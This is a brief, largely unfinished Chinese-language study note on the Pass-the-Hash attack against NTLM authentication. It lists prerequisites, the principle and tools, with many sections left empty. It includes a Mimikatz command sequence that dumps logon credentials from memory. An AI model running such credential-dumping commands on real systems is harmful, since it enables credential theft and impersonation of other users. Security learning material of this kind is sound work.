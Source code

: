 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 先要找到与账号相关的密码散列 (NTLM Hash)
*



## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码
*



### 实现步骤





## 常用工具

### Mimikatz

*

```powershell
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords full
```





### Impacket







### Metasploit







{% hint style="info" %}
哈希传递攻击的本质就是冒充其他用户。
{% endhint %}
